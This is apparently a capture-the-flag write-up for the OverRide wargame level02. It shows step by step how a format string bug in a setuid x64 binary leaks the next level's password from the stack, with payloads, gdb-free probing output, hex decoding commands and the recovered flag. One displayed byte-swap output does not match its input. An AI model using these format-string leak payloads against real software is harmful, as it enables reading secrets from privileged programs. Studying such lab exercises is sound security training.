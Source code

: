 # level02

By looking at the code and with `file` command, we can see that the program is for x64 architecture:

```bash
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

The program read the `.pass` file of the next level. When reading it, the program make checks that the length must be equal to 41.

To debug it in gdb, we extract the program to another machine to debug it. We create a file in `home/users/level03`.

```bash
┌──(vagrant㉿kali)-[~]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" > /home/users/level03/.pass
```

The first `fgets` will be printed as the only one argument of `printf` if the password read in the `.pass` and the password passed as input don't match.

We try to print the stack, by passing modifiers as first input and empty string as second one:

```bash
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p     
--[ Password: 
*****************************************
 0x7fff8c03a8d0 (nil) 0xffffffff 0x2a (nil) 0x7fff8c03aad8 0x100000000 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x8 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x41 0x2520702520702520 0x2070252070252070 0x7025207025207025 does not have access!
```

As we know what contains the `.pass` file, we can see that its content begins to pop at the 22th element until the 27th.

We can know try to pop up the content of the `.pass` file. We use `l` for print a long-sized integer as we are in x64 architecture, and `x` to print the result in hex:

```bash
--[ Username: %22$lx %23$lx %24$lx %25$lx %26$lx %27$lx
--[ Password: 
*****************************************
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 0 does not have access!
```

Let's try to decode it. We first put it in file and reverse each 2 bytes:

```bash
level02@OverRide:~$ echo "756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d" > /tmp/test 
level02@OverRide:~$ dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null
level02@OverRide:~$ cat /tmp/result 
57e60525437386845414a4531637931573a7173475e4768553a45386e67485378433760566b493d4
```

We need then to reverse bytes order each 16 bytes and print the result as ASCII values:

```bash
level02@OverRide:~$ cat /tmp/result | fold -w 16 | rev | tr -d '\n' | xxd -r -p
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
